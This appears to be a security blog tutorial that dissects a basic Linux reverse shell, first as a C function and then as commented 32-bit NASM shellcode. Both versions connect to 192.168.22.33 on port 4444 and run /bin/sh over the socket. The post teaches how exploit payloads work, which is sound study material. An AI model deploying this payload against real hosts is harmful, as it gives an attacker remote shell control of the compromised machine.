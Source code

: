 ```yaml
---
layout: post
title: "Understanding Shellcode: The Reverse Shell"
category: Security
date: 2018-10-30
series: "Understanding Shellcode"
tags:
  - Shellcode
  - Security
---
```

A recent conversation with a coworker inspired me to start putting
together a series of blog posts to examine what it is that shellcode does.  In
the first installment, I'll dissect the basic reverse shell.

First, a couple of reminders: shellcode is the machine code that is injected
into the flow of a program as the result of an exploit.  It generally must be
position independent as you can't usually control where it will be loaded in
memory.  A reverse shell initiates a TCP connection from the compromised host
back to a host under the control of the attacker.  It then launches a shell with
which the attacker can interact.

<!--more-->

## Reverse Shell in C ##

Let's examine a basic reverse shell in C.  Error handling is elided, both for
the space in this post, and because most shellcode is not going to have error
handling.

``` c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

void reverse_shell() {
  /* Allocate a socket for IPv4/TCP (1) */
  int sock = socket(AF_INET, SOCK_STREAM, 0);

  /* Setup the connection structure. (2) */
  struct sockaddr_in sin;
  sin.sin_family = AF_INET;
  sin.sin_port = htons(4444);

  /* Parse the IP address (3) */
  inet_pton(AF_INET, "192.168.22.33", &sin.sin_addr.s_addr);

  /* Connect to the remote host (4) */
  connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));

  /* Duplicate the socket to STDIO (5) */
  dup2(sock, STDIN_FILENO);
  dup2(sock, STDOUT_FILENO);
  dup2(sock, STDERR_FILENO);

  /* Setup and execute a shell. (6) */
  char *argv[] = {"/bin/sh", NULL};
  execve("/bin/sh", argv, NULL);
}
```

## Reverse Shell Steps ##

As can be seen, there are approximately 6 steps in setting up a reverse shell.
Once they are understood, this can be converted to proper shellcode.

1. First we need to allocate a socket structure in the kernel with a call to
   `socket`.  This is a wrapper for a system call (since it has effects in
   kernel space).  On x86, this wraps a system call called `socketcall`, which
   is a single entry point for dispatching all socket-related system calls.  On
   x86-64, the different socket system calls are actually distinct system calls,
   so this will call the `socket` system call.  It needs to know the address
   family (`AF_INET` for IPv4) and the socket type (`SOCK_STREAM` for TCP, it
   would be `SOCK_DGRAM` for UDP).  This returns an integer that is a file
   descriptor for the socket.
2. Next, we need to setup a `struct sockaddr_in`, which includes the family
   (`AF_INET` again), and the port number in network byte order (big-endian).
3. We also need to put the IP address into the structure.  `inet_pton` can parse
   a string form into the struct.  In a `struct sockaddr_in`, this is a 4 byte
   value, again in network byte order.
4. We now have the full structure setup, so we can initiate a connection to the
   remote host using the already-created socket.  This is done with a call to
   `connect`.  Like `socket`, this is a wrapper for the `socketcall` system
   call on x86, and for a `connect` system call on x86-64.
5. We want the shell to use our socket when it is handling standard input/output
   (`stdio`) functions.  To do this, we duplicate the file descriptor from the
   socket to each of `STDIN`, `STDOUT`, `STDERR`.  Like so many, `dup2()` is a
   thin wrapper around a system call.
6. Finally, we setup the arguments for our shell, and launch it with `execve`,
   yet another system call.  This one will replace the current binary image with
   the targeted binary (`/bin/sh`) and then execute it from the entry point.  It
   will execute with its standard input, output, and error connected to the
   network socket.

## Why not shellcode in C? ##

So, if we have a working function, why can't we just use that as shellcode?
Well, even if we compile position independent code (`-pie -fPIE` in gcc), this
code will still have many library calls in it.  In a normal program, this is no
problem, as it will be linked with the C library and run fine.  However, this
relies on the loader doing the right thing, including the placement of the [PLT
and GOT](/2017/03/19/got-and-plt-for-pwning.html).  When we inject shellcode, we
only inject the machine code, and don't include any data areas necessary for the
location of the GOT.

What about statically linking the C library to avoid all these problems?  While
that has the potential to work, any constants (like the strings for the IP
address and the shell path) will be located in a different section of the
binary, and so the code will be unable to reference those.  (Unless we inject
that section as well and fixup the relative addresses, but in that case, the
complexity of our loader approaches the complexity of our entire shellcode.)

## Reverse Shell in x86 ##

My shellcode below will be written with the intent of being as clear as possible
as a learning instrument.  Consequently, it is neither the shortest possible
shellcode, nor is it free of "bad characters" (null bytes, newlines, etc.).  It
is also written as NASM assembly.

``` nasm
; Do the steps to setup a socket (1)
; SYS_socket = 1
mov ebx, 1
; Setup the arguments to socket() on the stack.
push 0  ; Flags = 0
push 1  ; SOCK_STREAM = 1
push 2  ; AF_INET = 2
; Move a pointer to these values to ecx for socketcall.
mov ecx, esp
; We're calling SYS_SOCKETCALL
mov eax, 0x66
; Get the socket
int 0x80

; Time to setup the struct sockaddr_in (2), (3)
; push the address so it ends up in network byte order
; 192.168.22.33 == 0xC0A81621
push 0x2116a8c0
; push the port as a short in network-byte order
; 4444 = 0x115c
mov ebx, 0x5c11
push bx
; push the address family, AF_INET = 2
mov ebx, 0x2
push bx

; Let's establish the connection (4)
; Save address of our struct
mov ebx, esp
; Push size of the struct
push 0x10
; Push address of the struct
push ebx
; Push the socketfd
push eax
; Put the pointer into ecx
mov ecx, esp
; We're calling SYS_CONNECT = 3 (via SYS_SOCKETCALL)
mov ebx, 0x3
; Preserve sockfd
push eax
; Call SYS_SOCKETCALL
mov eax, 0x66
; Make the connection
int 0x80

; Let's duplicate the FDs from our socket. (5)
; Load the sockfd
pop ebx
; STDERR
mov ecx, 2
; Calling SYS_DUP2 = 0x3f
mov eax, 0x3f
; Syscall!
int 0x80
; mov to STDOUT
dec ecx
; Reload eax
mov eax, 0x3f
; Syscall!
int 0x80
; mov to STDIN
dec ecx
; Reload eax
mov eax, 0x3f
; Syscall!
int 0x80

; Now time to execve (6)
; push "/bin/sh\0" on the stack
push 0x68732f
push 0x6e69622f
; preserve filename
mov ebx, esp
; array of arguments
mov eax, eax
push eax
push ebx
; pointer to array in ecx
mov ecx, esp
; null envp
xor edx, edx
; call SYS_execve = 0xb
mov eax, 0xb
; execute the shell!
int 0x80
```
